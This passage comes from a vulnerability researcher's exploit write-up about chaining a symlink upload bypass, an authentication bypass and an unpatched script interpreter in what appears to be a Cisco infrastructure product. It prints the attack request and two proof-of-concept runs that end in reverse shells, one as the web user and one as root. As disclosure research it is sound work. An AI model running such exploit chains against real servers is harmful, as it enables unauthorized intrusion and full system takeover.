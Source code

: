 You guessed it, we can also bypass that check too because our symlink has no extension! Suppose our symlink is called `si`, then attack string we use for the upload is:

`POST /app/ui/FileUploadServlet?filePath=external/public/1571743726801/si HTTP/1.1`

Chaining everything together, we get our cake and can eat it too.

```bash
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.100.144 192.168.100.59
(+) eg: ./poc.py 192.168.100.144 192.168.100.59:1337

saturn:~ mr_me$ ./poc.py 192.168.100.144 192.168.100.59
(+) using default connectback port 4444
(+) created the exports directory!
(+) found an admins rest api key: 0A7DB7EC61204627BB833CE07AEA0F4C
(+) you are now admin with: JSESSIONID=ECAEF2D2CF7C4915E8FFA7FEB33995DB4D34445FDE1E24D2C58240FF66393631
(+) created the /opt/infra/uploads/multipart/a2htampra2Mub3Zh/khmjjkkc.ova file
(+) created objsession for the untar: OBJSESS1571747699398:189
(+) wrote target symlink!
(+) leaking symlink location, give me a few seconds...
(+) leaked symlink path: /opt/infra/uploads/external/public/1571747700876/
(+) triggered symlink write!
(+) bypassed the ../ and .jsp checks!
(+) starting handler on port 4444
(+) connection from 192.168.100.144
(+) pop thy shell!
id
uid=503(tomcatu) gid=503(tomcatg) groups=503(tomcatg) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost 2.6.32-754.6.3.el6.x86_64 #1 SMP Tue Oct 9 17:27:49 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
pwd
/opt/infra/web_cloudmgr/apache-tomcat/bin
```

Wait, didn't you say root access mr_me?

Yeah my bad. After grinding out 8 different post auth code exec bugs, I found out that a different web service (reachable from our authentication bypass) has a *by design feature* which is a built-in cloupia script interpreter allowing an authenticated attacker to execute arbitrary code as root. At that point, I didn't bother auditing any further and as it turns out, that's a forever day since Cisco declined to patch it:

```bash
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.100.144 192.168.100.59
(+) eg: ./poc.py 192.168.100.144 192.168.100.59:1337

saturn:~ mr_me$ ./poc.py 192.168.100.144 192.168.100.59:1337
(+) created the exports directory!
(+) found an admins rest api key: 0A7DB7EC61204627BB833CE07AEA0F4C
(+) starting handler on port 1337
(+) triggering reverse shell wait a sec...
(+) connection from 192.168.100.144
(+) pop thy shell!
bash: no job control in this shell
[root@localhost inframgr]# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=system_u:system_r:initrc_t:s0
[root@localhost inframgr]#
```
